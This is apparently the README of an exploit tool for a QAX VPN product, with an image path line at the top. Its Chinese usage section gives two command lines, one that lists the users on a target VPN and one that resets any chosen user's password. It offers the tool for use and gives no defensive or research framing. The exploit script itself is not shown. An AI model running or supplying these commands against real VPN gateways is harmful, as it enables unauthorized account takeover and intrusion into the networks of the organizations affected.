 # QAX_VPN Any User Password Reset Exploit


   ### 使用方法
* ##### 遍历当前存在用户</br>
      python QAXVPN.py -t https://1.1.1.1 -lu
* ##### 修改任意用户密码</br>
      python QAXVPN.py -t https://1.1.1.1 -u user1 -cp
